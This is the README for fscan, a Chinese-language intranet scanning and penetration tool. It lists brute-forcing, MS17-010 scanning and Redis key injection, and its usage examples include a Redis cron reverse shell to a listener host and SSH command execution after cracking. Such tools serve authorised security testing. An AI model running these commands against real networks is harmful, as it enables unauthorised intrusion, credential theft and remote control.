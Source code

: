 ## fscan <https://github.com/shadow1ng/fscan>
<!--auto_detail_badge_begin_0b490ffb61b26b45de3ea5d7dd8a582e-->
![Language](https://img.shields.io/badge/Language-Golang-blue)
![Author](https://img.shields.io/badge/Author-shadow1ng-orange)
![GitHub stars](https://img.shields.io/github/stars/shadow1ng/fscan.svg?style=flat&logo=github)
![Version](https://img.shields.io/badge/Version-V1.6.3-red)
![Time](https://img.shields.io/badge/Join-20210422-green)
<!--auto_detail_badge_end_fef74f2d7ea73fcc43ff78e05b1e7451-->


# 简介
一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。   
支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、web漏洞扫描、netbios探测、域控识别等功能。

## 主要功能
1.信息搜集:
* 存活探测(icmp)
* 端口扫描

2.爆破功能:
* 各类服务爆破(ssh、smb等)
* 数据库密码爆破(mysql、mssql、redis、psql等)  

3.系统信息、漏洞扫描:  
* netbios探测、域控识别  
* 获取目标网卡信息
* 高危漏洞扫描(ms17010等)  

4.Web探测功能:
* webtitle探测
* web指纹识别(常见cms、oa框架等)
* web漏洞扫描(weblogic、st2等,支持xray的poc)

5.漏洞利用:
* redis写公钥或写计划任务
* ssh命令执行

6.其他功能:
* 文件保存

## usege
简单用法
``` 
fscan.exe -h 192.168.1.1/24  (默认使用全部模块)
fscan.exe -h 192.168.1.1/16  (B段扫描)
```

其他用法
```
fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径) 
fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
fscan.exe -hf ip.txt  (以文件导入)
fscan.exe -u http://baidu.com -proxy 8080 (扫描单个url,并设置http代理 http://127.0.0.1:8080)
```
编译命令
```
go build -ldflags="-s -w " -trimpath
```

完整参数
```
   -Num int
        poc rate (default 20)
  -c string
        exec command (ssh)
  -cookie string
        set poc cookie
  -debug
        debug mode will print more error info
  -domain string
        smb domain
  -h string
        IP address of the host you want to scan,for example: 192.168.11.11 | 192.168.11.11-255 | 192.168.11.11,192.168.11.12
  -hf string
        host file, -hs ip.txt
  -m string
        Select scan type ,as: -m ssh (default "all")
  -no
        not to save output log
  -nopoc
        not to scan web vul
  -np
        not to ping
  -o string
        Outputfile (default "result.txt")
  -p string
        Select a port,for example: 22 | 1-65535 | 22,80,3306 (default "21,22,80,81,135,443,445,1433,3306,5432,6379,7001,8000,8080,8089,9200,11211,270179098,9448,8888,82,8858,1081,8879,21502,9097,8088,8090,8200,91,1080,889,8834,8011,9986,9043,9988,7080,10000,9089,8028,9999,8001,89,8086,8244,9000,2008,8080,7000,8030,8983,8096,8288,18080,8020,8848,808,8099,6868,18088,10004,8443,8042,7008,8161,7001,1082,8095,8087,8880,9096,7074,8044,8048,9087,10008,2020,8003,8069,20000,7688,1010,8092,8484,6648,9100,21501,8009,8360,9060,85,99,8000,9085,9998,8172,8899,9084,9010,9082,10010,7005,12018,87,7004,18004,8098,18098,8002,3505,8018,3000,9094,83,8108,1118,8016,20720,90,8046,9443,8091,7002,8868,8010,18082,8222,7088,8448,18090,3008,12443,9001,9093,7003,8101,14000,7687,8094,9002,8082,9081,8300,9086,8081,8089,8006,443,7007,7777,1888,9090,9095,81,1000,18002,8800,84,9088,7071,7070,8038,9091,8258,9008,9083,16080,88,8085,801,5555,7680,800,8180,9800,10002,18000,18008,98,28018,86,9092,8881,8100,8012,8084,8989,6080,7078,18001,8093,8053,8070,8280,880,92,9099,8181,9981,8060,8004,8083,10001,8097,21000,80,7200,888,7890,3128,8838,8008,8118,9080,2100,7180,9200")
  -ping
        using ping replace icmp
  -pocname string
        use the pocs these contain pocname, -pocname weblogic
  -proxy string
        set poc proxy, -proxy http://127.0.0.1:8080
  -pwd string
        password
  -pwdf string
        password file
  -rf string
        redis file to write sshkey file (as: -rf id_rsa.pub)
  -rs string
        redis shell to write cron file (as: -rs 192.168.1.1:6666)
  -t int
        Thread nums (default 600)
  -time int
        Set timeout (default 3)
  -u string
        url
  -uf string
        urlfile
  -user string
        username
  -userf string
        username file
  -wt int
        Set web timeout (default 5)
```

## 运行截图

`fscan.exe -h 192.168.x.x  (全功能、ms17010、读取网卡信息)`
![](https://github.com/shadow1ng/fscan/raw/main/image/1.png)

![](https://github.com/shadow1ng/fscan/raw/main/image/4.png)

`fscan.exe -h 192.168.x.x -rf id_rsa.pub (redis 写公钥)`
![](https://github.com/shadow1ng/fscan/raw/main/image/2.png)

`fscan.exe -h 192.168.x.x -c "whoami;id" (ssh 命令)`
![](https://github.com/shadow1ng/fscan/raw/main/image/3.png)

`fscan.exe -h 192.168.x.x -p80 -proxy http://127.0.0.1:8080 一键支持xray的poc`
![](https://github.com/shadow1ng/fscan/raw/main/image/2020-12-12-13-34-44.png)

`fscan.exe -h 192.168.x.x -p 139 (netbios探测、域控识别,下图的[+]DC代表域控)`
![](https://github.com/shadow1ng/fscan/raw/main/image/netbios.png)

`go run .\main.go -h 192.168.x.x/24 -m netbios(-m netbios时,才会显示完整的netbios信息)`
![](https://github.com/shadow1ng/fscan/raw/main/image/netbios1.png)

<!--auto_detail_active_begin_e1c6fb434b6f0baf6912c7a1934f772b-->
## 项目相关


## 最近更新

<!--auto_detail_active_end_f9cf7911015e9913b7e691a7a5878527-->
